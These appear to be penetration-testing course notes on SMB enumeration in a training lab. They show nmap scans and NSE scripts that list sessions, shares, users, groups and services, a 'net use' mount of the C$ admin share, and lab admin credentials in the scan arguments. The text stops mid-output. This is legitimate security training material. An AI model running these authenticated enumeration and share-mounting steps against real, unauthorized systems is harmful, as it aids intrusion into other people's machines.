

# Section 1: course 3: Assessment Methodologies: Enumeration    

### Table of Contents

- [SMB](#SMB)
- [FTP](#FTP)
- [SSH](#SSH)
- [HTTP](#HTTP)
- [SQL](#SQL)

---

### SMB

SMB is a network file sharing protocol that requires an open port on a computer or server to communicate with other systems. SMB ports are generally port numbers 139 and  445.

Port 139 is used by SMB dialects that communicate over NetBIOS. It operates  as an application layer network protocol for device communication in  Windows operating systems over a network. For example, printers and  serials ports communicate via Port 139.

Port 445 is used by newer  versions of SMB (after Windows 2000) on top of a TCP stack, allowing SMB to communicate over the Internet. This also means you can use IP  addresses in order to use SMB like file sharing.


**get the version of SMB using nmap**

```cmd
PS C:\Users\Administrator> nmap 10.4.21.247
Starting Nmap 7.91 ( https://nmap.org ) at 2024-01-04 17:29 Coordinated Universal Time
Nmap scan report for ip-10-4-23-252.ec2.internal (10.4.23.252)
Host is up (0.00s latency).
Not shown: 990 closed ports
PORT     STATE SERVICE
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
1025/tcp open  NFS-or-IIS
1026/tcp open  LSA-or-nterm
1027/tcp open  IIS
1028/tcp open  unknown
1037/tcp open  ams
1048/tcp open  neod2
3389/tcp open  ms-wbt-server


PS C:\Users\Administrator> nmap -sV 10.4.21.247
Starting Nmap 7.91 ( https://nmap.org ) at 2024-01-08 20:18 Coordinated Universal Time
Nmap scan report for ip-10-4-21-247.ec2.internal (10.4.21.247)
Host is up (0.00s latency).
Not shown: 992 closed ports
PORT      STATE SERVICE            VERSION
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp  open  ssl/ms-wbt-server?
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49155/tcp open  msrpc              Microsoft Windows RPC
MAC Address: 0E:62:EB:D9:2C:AD (Unknown)
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows


PS C:\Users\Administrator> nmap -sV 10.4.21.247 -sC
Starting Nmap 7.91 ( https://nmap.org ) at 2024-01-08 20:26 Coordinated Universal Time
Nmap scan report for ip-10-4-21-247.ec2.internal (10.4.21.247)
Host is up (0.00s latency).
Not shown: 992 closed ports
PORT      STATE SERVICE            VERSION
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Windows Server 2012 R2 Standard 9600 microsoft-ds
3389/tcp  open  ssl/ms-wbt-server?
| rdp-ntlm-info:
|   Target_Name: WIN-OMCNBKR66MN
|   NetBIOS_Domain_Name: WIN-OMCNBKR66MN
|   NetBIOS_Computer_Name: WIN-OMCNBKR66MN
|   DNS_Domain_Name: WIN-OMCNBKR66MN
|   DNS_Computer_Name: WIN-OMCNBKR66MN
|   Product_Version: 6.3.9600
|_  System_Time: 2024-01-08T20:27:56+00:00
| ssl-cert: Subject: commonName=WIN-OMCNBKR66MN
| Not valid before: 2024-01-07T19:48:42
|_Not valid after:  2024-07-08T19:48:42
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49155/tcp open  msrpc              Microsoft Windows RPC
MAC Address: 0E:62:EB:D9:2C:AD (Unknown)
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_nbstat: NetBIOS name: WIN-OMCNBKR66MN, NetBIOS user: <unknown>, NetBIOS MAC: 0e:62:eb:d9:2c:ad (unknown)
| smb-os-discovery:
|   OS: Windows Server 2012 R2 Standard 9600 (Windows Server 2012 R2 Standard 6.3)
|   OS CPE: cpe:/o:microsoft:windows_server_2012::-
|   Computer name: WIN-OMCNBKR66MN
|   NetBIOS computer name: WIN-OMCNBKR66MN\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2024-01-08T20:27:56+00:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2024-01-08T20:27:56
|_  start_date: 2024-01-08T19:47:20
```

 <br />

**mount the SMB share of the target machine using the Windows File Explorer.**




 <br />

**mount the SMB share of the target machine using the Windows File Explorer as well as using the command prompt.**

```
PS C:\Users\Administrator> net use Z: \\ip\C$ password /user:administrator
```

 <br />

**to remove the connection**

```
PS C:\Users\Administrator> net use * /delete
```

 <br />

**nmap scripts related to smb**

```bash
root@attackdefense:~# ls -l /usr/share/nmap/scripts/ | grep -i "smb"
-rw-r--r-- 1 root root 45138 Oct 12  2020 smb-brute.nse
-rw-r--r-- 1 root root  5289 Oct 12  2020 smb-double-pulsar-backdoor.nse
-rw-r--r-- 1 root root  4840 Oct 12  2020 smb-enum-domains.nse
-rw-r--r-- 1 root root  5971 Oct 12  2020 smb-enum-groups.nse
-rw-r--r-- 1 root root  8043 Oct 12  2020 smb-enum-processes.nse
-rw-r--r-- 1 root root 27274 Oct 12  2020 smb-enum-services.nse
-rw-r--r-- 1 root root 12097 Oct 12  2020 smb-enum-sessions.nse
-rw-r--r-- 1 root root  6923 Oct 12  2020 smb-enum-shares.nse
-rw-r--r-- 1 root root 12527 Oct 12  2020 smb-enum-users.nse
-rw-r--r-- 1 root root  1706 Oct 12  2020 smb-flood.nse
-rw-r--r-- 1 root root  7471 Oct 12  2020 smb-ls.nse
-rw-r--r-- 1 root root  8758 Oct 12  2020 smb-mbenum.nse
-rw-r--r-- 1 root root  8220 Oct 12  2020 smb-os-discovery.nse
-rw-r--r-- 1 root root  4982 Oct 12  2020 smb-print-text.nse
-rw-r--r-- 1 root root  1831 Oct 12  2020 smb-protocols.nse
-rw-r--r-- 1 root root 63596 Oct 12  2020 smb-psexec.nse
-rw-r--r-- 1 root root  5190 Oct 12  2020 smb-security-mode.nse
-rw-r--r-- 1 root root  2424 Oct 12  2020 smb-server-stats.nse
-rw-r--r-- 1 root root 14159 Oct 12  2020 smb-system-info.nse
-rw-r--r-- 1 root root  7524 Oct 12  2020 smb-vuln-conficker.nse
-rw-r--r-- 1 root root 23154 Oct 12  2020 smb-vuln-cve-2017-7494.nse
-rw-r--r-- 1 root root  6402 Oct 12  2020 smb-vuln-cve2009-3103.nse
-rw-r--r-- 1 root root  6545 Oct 12  2020 smb-vuln-ms06-025.nse
-rw-r--r-- 1 root root  5386 Oct 12  2020 smb-vuln-ms07-029.nse
-rw-r--r-- 1 root root  5688 Oct 12  2020 smb-vuln-ms08-067.nse
-rw-r--r-- 1 root root  5647 Oct 12  2020 smb-vuln-ms10-054.nse
-rw-r--r-- 1 root root  7214 Oct 12  2020 smb-vuln-ms10-061.nse
-rw-r--r-- 1 root root  7344 Oct 12  2020 smb-vuln-ms17-010.nse
-rw-r--r-- 1 root root  4400 Oct 12  2020 smb-vuln-regsvc-dos.nse
-rw-r--r-- 1 root root  6586 Oct 12  2020 smb-vuln-webexec.nse
-rw-r--r-- 1 root root  5084 Oct 12  2020 smb-webexec-exploit.nse
-rw-r--r-- 1 root root  3355 Oct 12  2020 smb2-capabilities.nse
-rw-r--r-- 1 root root  3075 Oct 12  2020 smb2-security-mode.nse
-rw-r--r-- 1 root root  1447 Oct 12  2020 smb2-time.nse
-rw-r--r-- 1 root root  5238 Oct 12  2020 smb2-vuln-uptime.nse

```

 <br />

**default nmap scripts for port 139, 445** 

```bash
root@attackdefense:~# nmap 10.4.19.58 -sV -p139,445 -sC
Starting Nmap 7.91 ( https://nmap.org ) at 2024-01-10 00:21 IST
Nmap scan report for 10.4.19.58
Host is up (0.0084s latency).

PORT    STATE SERVICE      VERSION
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows Server 2012 R2 Standard 9600 microsoft-ds
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 1s, deviation: 2s, median: 0s
| smb-os-discovery: 
|   OS: Windows Server 2012 R2 Standard 9600 (Windows Server 2012 R2 Standard 6.3)
|   OS CPE: cpe:/o:microsoft:windows_server_2012::-
|   Computer name: WIN-OMCNBKR66MN
|   NetBIOS computer name: WIN-OMCNBKR66MN\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2024-01-09T18:51:30+00:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2024-01-09T18:51:27
|_  start_date: 2024-01-09T18:09:50


```

from `smb-security-mode`: the guest account is exist 

 <br />

**enumerate smb sessions `smb-enum-sessions`**

```bash
root@attackdefense:~# nmap 10.4.19.58 -sV -p139,445 --script=smb-enum-sessions
Starting Nmap 7.91 ( https://nmap.org ) at 2024-01-10 00:29 IST
Nmap scan report for 10.4.19.58
Host is up (0.0083s latency).

PORT    STATE SERVICE      VERSION
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-enum-sessions: 
|   Users logged in
|_    WIN-OMCNBKR66MN\bob since <unknown>


```

there is a valid session for user `bob`

  <br />

**enumerate smb session for specific user `smb-enum-sessions`**

```bash
root@attackdefense:~# nmap 10.4.19.58 -sV -p139,445 --script=smb-enum-sessions --script-args smbusername=administrator,smbpassword=smbserver_771
Starting Nmap 7.91 ( https://nmap.org ) at 2024-01-10 00:33 IST
Nmap scan report for 10.4.19.58
Host is up (0.0086s latency).

PORT    STATE SERVICE      VERSION
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-enum-sessions: 
|   Users logged in
|     WIN-OMCNBKR66MN\bob since 2024-01-09T18:11:14
|   Active SMB sessions
|_    ADMINISTRATOR is connected from \\10.10.80.3 for [just logged in, it's probably you], idle for [not idle]

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .

```

administrator has an active session (nmap logged in with the credential, so it's my session (check the ip in \\\ip it's my ip address) )

 <br />

**enumerate smb shares with nmap `smb-enum-shares`**

```bash
root@attackdefense:~# nmap 10.4.25.63 -sV -p139,445 --script=smb-enum-shares --script-args smbusername=administrator,smbpassword=smbserver_771
Starting Nmap 7.91 ( https://nmap.org ) at 2024-01-10 22:12 IST
Nmap scan report for 10.4.25.63
Host is up (0.0082s latency).

PORT    STATE SERVICE      VERSION
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-enum-shares: 
|   account_used: administrator
|   \\10.4.25.63\ADMIN$: 
|     Type: STYPE_DISKTREE_HIDDEN
|     Comment: Remote Admin
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\Windows
|     Anonymous access: <none>
|     Current user access: READ/WRITE
|   \\10.4.25.63\C: 
|     Type: STYPE_DISKTREE
|     Comment: 
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\
|     Anonymous access: <none>
|     Current user access: READ
|   \\10.4.25.63\C$: 
|     Type: STYPE_DISKTREE_HIDDEN
|     Comment: Default share
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\
|     Anonymous access: <none>
|     Current user access: READ/WRITE
|   \\10.4.25.63\D$: 
|     Type: STYPE_DISKTREE_HIDDEN
|     Comment: Default share
|     Users: 0
|     Max Users: <unlimited>
|     Path: D:\
|     Anonymous access: <none>
|     Current user access: READ/WRITE
|   \\10.4.25.63\Documents: 
|     Type: STYPE_DISKTREE
|     Comment: 
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\Users\Administrator\Documents
|     Anonymous access: <none>
|     Current user access: READ
|   \\10.4.25.63\Downloads: 
|     Type: STYPE_DISKTREE
|     Comment: 
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\Users\Administrator\Downloads
|     Anonymous access: <none>
|     Current user access: READ
|   \\10.4.25.63\IPC$: 
|     Type: STYPE_IPC_HIDDEN
|     Comment: Remote IPC
|     Users: 1
|     Max Users: <unlimited>
|     Path: 
|     Anonymous access: <none>
|     Current user access: READ/WRITE
|   \\10.4.25.63\print$: 
|     Type: STYPE_DISKTREE
|     Comment: Printer Drivers
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\Windows\system32\spool\drivers
|     Anonymous access: <none>
|_    Current user access: READ/WRITE


```

- `\\10.4.20.152\IPC$`: The IPC$ share is also known as a null session connection. By using this session, Windows lets anonymous users perform certain activities, such as enumerating the names of domain accounts and network shares.

The IPC$ share is created by the Windows Server service. This special share exists to allow for subsequent named pipe connections to the server. The server's named pipes are created by built-in operating system components and by any applications or services that are installed on the system. When the named pipe is being created, the process specifies the security that is associated with the pipe, and then makes sure that access is only granted to the specified users or groups.

`\\10.4.20.152\print$`: share printer information .

- We can observe that the administrator user has read and write privilege to the entire C$. i.e C:\

 <br />

**enumerate smb users with nmap `smb-enum-users`**

```bash
root@attackdefense:~# nmap 10.4.25.63 -sV -p139,445 --script=smb-enum-users --script-args smbusername=administrator,smbpassword=smbserver_771
Starting Nmap 7.91 ( https://nmap.org ) at 2024-01-10 21:45 IST
Nmap scan report for 10.4.25.63
Host is up (0.0080s latency).

PORT    STATE SERVICE      VERSION
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-enum-users: 
|   WIN-OMCNBKR66MN\Administrator (RID: 500)
|     Description: Built-in account for administering the computer/domain
|     Flags:       Normal user account, Password does not expire
|   WIN-OMCNBKR66MN\bob (RID: 1010)
|     Flags:       Normal user account, Password does not expire
|   WIN-OMCNBKR66MN\Guest (RID: 501)
|     Description: Built-in account for guest access to the computer/domain
|_    Flags:       Password not required, Normal user account, Password does not expire
```

`Guest` user is enabled and his Password is not required

 <br />


**enumerate smb server statistics with nmap `smb-server-stats`**

```bash
root@attackdefense:~# nmap 10.4.25.63 -sV -p139,445 --script=smb-server-stats --script-args smbusername=administrator,smbpassword=smbserver_771 
Starting Nmap 7.91 ( https://nmap.org ) at 2024-01-10 21:50 IST
Nmap scan report for 10.4.25.63
Host is up (0.0083s latency).

PORT    STATE SERVICE      VERSION
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-server-stats: 
|   Server statistics collected since 2024-01-10T15:58:33 (22m25s):
|     7185 bytes (5.34 b/s) sent, 7421 bytes (5.52 b/s) received
|_    1 failed logins, 0 permission errors, 0 system errors, 0 print jobs, 5 files opened


```

 <br />


**enumerate smb domains with nmap `smb-enum-domains`**

```bash
root@attackdefense:~# nmap 10.4.25.63 -sV -p139,445 --script=smb-enum-domains --script-args smbusername=administrator,smbpassword=smbserver_771
Starting Nmap 7.91 ( https://nmap.org ) at 2024-01-10 21:53 IST
Nmap scan report for 10.4.25.63
Host is up (0.0086s latency).

PORT    STATE SERVICE      VERSION
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-enum-domains: 
|   WIN-OMCNBKR66MN
|     Groups: WinRMRemoteWMIUsers__
|     Users: Administrator, bob, Guest
|     Creation time: 2013-08-22T14:47:57
|     Passwords: min length: n/a; min age: n/a days; max age: 42 days; history: n/a passwords
|     Properties: Complexity requirements exist
|     Account lockout disabled
|   Builtin
|     Groups: Access Control Assistance Operators, Administrators, Backup Operators, Certificate Service DCOM Access, Cryptographic Operators, Distributed COM Users, Event Log Readers, Guests, Hyper-V Administrators, IIS_IUSRS, Network Configuration Operators, Performance Log Users, Performance Monitor Users, Power Users, Print Operators, RDS Endpoint Servers, RDS Management Servers, RDS Remote Access Servers, Remote Desktop Users, Remote Management Users, Replicator, Users
|     Users: n/a
|     Creation time: 2013-08-22T14:47:57
|     Passwords: min length: n/a; min age: n/a days; max age: 42 days; history: n/a passwords
|_    Account lockout disabled
```

 <br />

**enumerate smb groups with nmap `smb-enum-groups`**

```bash
root@attackdefense:~# nmap 10.4.25.63 -sV -p139,445 --script=smb-enum-groups --script-args smbusername=administrator,smbpassword=smbserver_771
Starting Nmap 7.91 ( https://nmap.org ) at 2024-01-10 21:57 IST
Nmap scan report for 10.4.25.63
Host is up (0.0090s latency).

PORT    STATE SERVICE      VERSION
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-enum-groups: 
|   Builtin\Administrators (RID: 544): Administrator, bob
|   Builtin\Users (RID: 545): bob
|   Builtin\Guests (RID: 546): Guest
|   Builtin\Power Users (RID: 547): <empty>
|   Builtin\Print Operators (RID: 550): <empty>
|   Builtin\Backup Operators (RID: 551): <empty>
|   Builtin\Replicator (RID: 552): <empty>
|   Builtin\Remote Desktop Users (RID: 555): bob
|   Builtin\Network Configuration Operators (RID: 556): <empty>
|   Builtin\Performance Monitor Users (RID: 558): <empty>
|   Builtin\Performance Log Users (RID: 559): <empty>
|   Builtin\Distributed COM Users (RID: 562): <empty>
|   Builtin\IIS_IUSRS (RID: 568): <empty>
|   Builtin\Cryptographic Operators (RID: 569): <empty>
|   Builtin\Event Log Readers (RID: 573): <empty>
|   Builtin\Certificate Service DCOM Access (RID: 574): <empty>
|   Builtin\RDS Remote Access Servers (RID: 575): <empty>
|   Builtin\RDS Endpoint Servers (RID: 576): <empty>
|   Builtin\RDS Management Servers (RID: 577): <empty>
|   Builtin\Hyper-V Administrators (RID: 578): <empty>
|   Builtin\Access Control Assistance Operators (RID: 579): <empty>
|   Builtin\Remote Management Users (RID: 580): <empty>
|_  WIN-OMCNBKR66MN\WinRMRemoteWMIUsers__ (RID: 1000): <empty>
```

 <br />

**enumerate smb services with nmap `smb-enum-services `** 

```bash
root@attackdefense:~# nmap 10.4.25.63 -sV -p139,445 --script=smb-enum-services --script-args smbusername=administrator,smbpassword=smbserver_771
Starting Nmap 7.91 ( https://nmap.org ) at 2024-01-10 21:59 IST
Nmap scan report for 10.4.25.63
Host is up (0.0092s latency).

PORT    STATE SERVICE      VERSION
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
| smb-enum-services: 
|   AmazonSSMAgent: 
|     display_name: Amazon SSM Agent
|     state: 
|       SERVICE_PAUSED
|       SERVICE_PAUSE_PENDING
|       SERVICE_CONTINUE_PENDING
|       SERVICE_RUNNING
|     type: 
|       SERVICE_TYPE_WIN32
|       SERVICE_TYPE_WIN32_OWN_PROCESS
|     controls_accepted: 
|       SERVICE_CONTROL_CONTINUE
|       SERVICE_CONTROL_NETBINDADD
|       SERVICE_CONTROL_NETBINDENABLE
|       SERVICE_CONTROL_INTERROGATE
|       SERVICE_CONTROL_STOP
|       SERVICE_CONTROL_PARAMCHANGE
|   DiagTrack: 
|     display_name: Diagnostics Tracking Service
|     state: 
|       SERVICE_PAUSED
|       SERVICE_PAUSE_PENDING
|       SERVICE_CONTINUE_PENDING
|       SERVICE_RUNNING
|     type: 
|       SERVICE_TYPE_WIN32
|       SERVICE_TYPE_WIN32_OWN_PROCESS
|     controls_accepted: 
|       SERVICE_CONTROL_CONTINUE
|       SERVICE_CONTROL_NETBINDADD
|       SERVICE_CONTROL_NETBINDENABLE
|       SERVICE_CONTROL_INTERROGATE
|       SERVICE_CONTROL_STOP
|       SERVICE_CONTROL_PARAMCHANGE
|   Ec2Config: 
|     display_name: Ec2Config
|     state: 
|       SERVICE_PAUSED
|       SERVICE_PAUSE_PENDING
|       SERVICE_CONTINUE_PENDING
|       SERVICE_RUNNING
|     type: 
|       SERVICE_TYPE_WIN32
|       SERVICE_TYPE_WIN32_OWN_PROCESS
|     controls_accepted: 
|       SERVICE_CONTROL_CONTINUE
|       SERVICE_CONTROL_NETBINDADD
|       SERVICE_CONTROL_NETBINDENABLE
|       SERVICE_CONTROL_INTERROGATE
|       SERVICE_CONTROL_STOP
|       SERVICE_CONTROL_PARAMCHANGE
|   MSDTC: 
|     display_name: Distributed Transaction Coordinator
|     state: 
|       SERVICE_PAUSED
|       SERVICE_PAUSE_PENDING
|       SERVICE_CONTINUE_PENDING
|       SERVICE_RUNNING
|     type: 
|       SERVICE_TYPE_WIN32
|       SERVICE_TYPE_WIN32_OWN_PROCESS
|     controls_accepted: 
|       SERVICE_CONTROL_CONTINUE
|       SERVICE_CONTROL_NETBINDADD
|       SERVICE_CONTROL_NETBINDENABLE
|       SERVICE_CONTROL_INTERROGATE
|       SERVICE_CONTROL_STOP
|       SERVICE_CONTROL_PARAMCHANGE
|   Spooler: 
|     display_name: Print Spooler
|     state: 
|       SERVICE_PAUSED
|       SERVICE_PAUSE_PENDING
|       SERVICE_CONTINUE_PENDING
|       SERVICE_RUNNING
|     type: 
|       SERVICE_TYPE_WIN32
|       SERVICE_TYPE_WIN32_OWN_PROCESS
|     controls_accepted: 
|       SERVICE_CONTROL_CONTINUE
|       SERVICE_CONTROL_NETBINDADD
|       SERVICE_CONTROL_NETBINDENABLE
|_      SERVICE_CONTROL_STOP
445/tcp open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
| smb-enum-services: 
|   AmazonSSMAgent: 
|     display_name: Amazon SSM Agent
|     state: 
|       SERVICE_PAUSED
|       SERVICE_PAUSE_PENDING
|       SERVICE_CONTINUE_PENDING
|       SERVICE_RUNNING
|     type: 
|       SERVICE_TYPE_WIN32
|       SERVICE_TYPE_WIN32_OWN_PROCESS
|     controls_accepted: 
|       SERVICE_CONTROL_CONTINUE
|       SERVICE_CONTROL_NETBINDADD
|       SERVICE_CONTROL_NETBINDENABLE
|       SERVICE_CONTROL_INTERROGATE
|       SERVICE_CONTROL_STOP
|       SERVICE_CONTROL_PARAMCHANGE
|   DiagTrack: 
|     display_name: Diagnostics Tracking Service
|     state: 
|       SERVICE_PAUSED
|       SERVICE_PAUSE_PENDING
|       SERVICE_CONTINUE_PENDING
|       SERVICE_RUNNING
|     type: 
|       SERVICE_TYPE_WIN32
|       SERVICE_TYPE_WIN32_OWN_PROCESS
|     controls_accepted: 
|       SERVICE_CONTROL_CONTINUE
|       SERVICE_CONTROL_NETBINDADD
|       SERVICE_CONTROL_NETBINDENABLE
|       SERVICE_CONTROL_INTERROGATE
|       SERVICE_CONTROL_STOP
|       SERVICE_CONTROL_PARAMCHANGE
|   Ec2Config: 
|     display_name: Ec2Config
|     state: 
|       SERVICE_PAUSED
|       SERVICE_PAUSE_PENDING
|       SERVICE_CONTINUE_PENDING
|       SERVICE_RUNNING
|     type: 
|       SERVICE_TYPE_WIN32
|       SERVICE_TYPE_WIN32_OWN_PROCESS
|     controls_accepted: 
|       SERVICE_CONTROL_CONTINUE
|       SERVICE_CONTROL_NETBINDADD
|       SERVICE_CONTROL_NETBINDENABLE
|       SERVICE_CONTROL_INTERROGATE
|       SERVICE_CONTROL_STOP
|       SERVICE_CONTROL_PARAMCHANGE
|   MSDTC: 
|     display_name: Distributed Transaction Coordinator
|     state: 
|       SERVICE_PAUSED
|       SERVICE_PAUSE_PENDING
|       SERVICE_CONTINUE_PENDING
|       SERVICE_RUNNING
|     type: 
|       SERVICE_TYPE_WIN32
|       SERVICE_TYPE_WIN32_OWN_PROCESS
|     controls_accepted: 
|       SERVICE_CONTROL_CONTINUE
|       SERVICE_CONTROL_NETBINDADD
|       SERVICE_CONTROL_NETBINDENABLE
|       SERVICE_CONTROL_INTERROGATE
|       SERVICE_CONTROL_STOP
|       SERVICE_CONTROL_PARAMCHANGE
|   Spooler: 
|     display_name: Print Spooler
|     state: 
|       SERVICE_PAUSED
|       SERVICE_PAUSE_PENDING
|       SERVICE_CONTINUE_PENDING
|       SERVICE_RUNNING
|     type: 
|       SERVICE_TYPE_WIN32
|       SERVICE_TYPE_WIN32_OWN_PROCESS
|     controls_accepted: 
|       SERVICE_CONTROL_CONTINUE
|       SERVICE_CONTROL_NETBINDADD
|       SERVICE_CONTROL_NETBINDENABLE
|_      SERVICE_CONTROL_STOP
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
```

 <br />


**enumerate smb shares with nmap and get the directories inside each share `smb-enum-shares,smb-ls`**

```bash
root@attackdefense:~# nmap 10.4.25.63 -sV -p139,445 --script=smb-enum-shares,smb-ls --script-args smbusername=administrator,smbpassword=smbserver_771
Starting Nmap 7.91 ( https://nmap.org ) at 2024-01-10 22:01 IST
Stats: 0:00:55 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 98.85% done; ETC: 22:02 (0:00:01 remaining)
Nmap scan report for 10.4.25.63
Host is up (0.0083s latency).

PORT    STATE SERVICE      VERSION
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-enum-shares: 
|   account_used: administrator
|   \\10.4.25.63\ADMIN$: 
|     Type: STYPE_DISKTREE_HIDDEN
|     Comment: Remote Admin
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\Windows
|     Anonymous access: <none>
|     Current user access: READ/WRITE
|   \\10.4.25.63\C: 
|     Type: STYPE_DISKTREE
|     Comment: 
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\
|     Anonymous access: <none>
|     Current user access: READ
|   \\10.4.25.63\C$: 
|     Type: STYPE_DISKTREE_HIDDEN
|     Comment: Default share
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\
|     Anonymous access: <none>
|     Current user access: READ/WRITE
|   \\10.4.25.63\D$: 
|     Type: STYPE_DISKTREE_HIDDEN
|     Comment: Default share
|     Users: 0
|     Max Users: <unlimited>
|     Path: D:\
|     Anonymous access: <none>
|     Current user access: READ/WRITE
|   \\10.4.25.63\Documents: 
|     Type: STYPE_DISKTREE
|     Comment: 
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\Users\Administrator\Documents
|     Anonymous access: <none>
|     Current user access: READ
|   \\10.4.25.63\Downloads: 
|     Type: STYPE_DISKTREE
|     Comment: 
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\Users\Administrator\Downloads
|     Anonymous access: <none>
|     Current user access: READ
|   \\10.4.25.63\IPC$: 
|     Type: STYPE_IPC_HIDDEN
|     Comment: Remote IPC
|     Users: 1
|     Max Users: <unlimited>
|     Path: 
|     Anonymous access: <none>
|     Current user access: READ/WRITE
|   \\10.4.25.63\print$: 
|     Type: STYPE_DISKTREE
|     Comment: Printer Drivers
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\Windows\system32\spool\drivers
|     Anonymous access: <none>
|_    Current user access: READ/WRITE
| smb-ls: Volume \\10.4.25.63\ADMIN$
|   maxfiles limit reached (10)
| SIZE   TIME                 FILENAME
| <DIR>  2013-08-22T13:36:16  .
| <DIR>  2013-08-22T13:36:16  ..
| <DIR>  2013-08-22T15:39:31  ADFS
| <DIR>  2013-08-22T15:39:31  ADFS\ar
| <DIR>  2013-08-22T15:39:31  ADFS\bg
| <DIR>  2013-08-22T15:39:31  ADFS\cs
| <DIR>  2013-08-22T15:39:31  ADFS\da
| <DIR>  2013-08-22T15:39:31  ADFS\de
| <DIR>  2013-08-22T15:39:31  ADFS\el
